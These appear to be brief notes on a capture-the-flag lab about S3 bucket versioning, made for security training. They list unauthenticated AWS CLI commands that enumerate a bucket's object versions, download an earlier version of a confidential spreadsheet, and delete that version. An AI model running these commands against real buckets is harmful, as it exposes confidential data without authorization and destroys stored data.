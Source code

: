 1. Challege Link: https://pwnedlabs.io/labs/access-secrets-with-s3-bucket-versioning
2. Challenge Name: Access Secrets with S3 Bucket Versioning
3. Some useful commands during the CTF challenge: 
	1. aws s3 ls s3://huge-logistics-dashboard --recursive --no-sign-request
	2. aws s3api list-object-versions --bucket huge-logistics-dashboard --query "Versions[?VersionId!='null']" --no-sign-request
	3. aws s3api get-object --bucket huge-logistics-dashboard --key "private/Business Health - Board Meeting (Confidential).xlsx" --version-id "HPnPmnGr_j6Prhg2K9X2Y.OcXxlO1xm8" test.xlsx --no-sign-request
	4. aws s3api delete-object --bucket huge-logistics-dashboard --key "private/Business Health - Board Meeting (Confidential).xlsx" --version-id "HPnPmnGr_j6Prhg2K9X2Y.OcXxlO1xm8" 
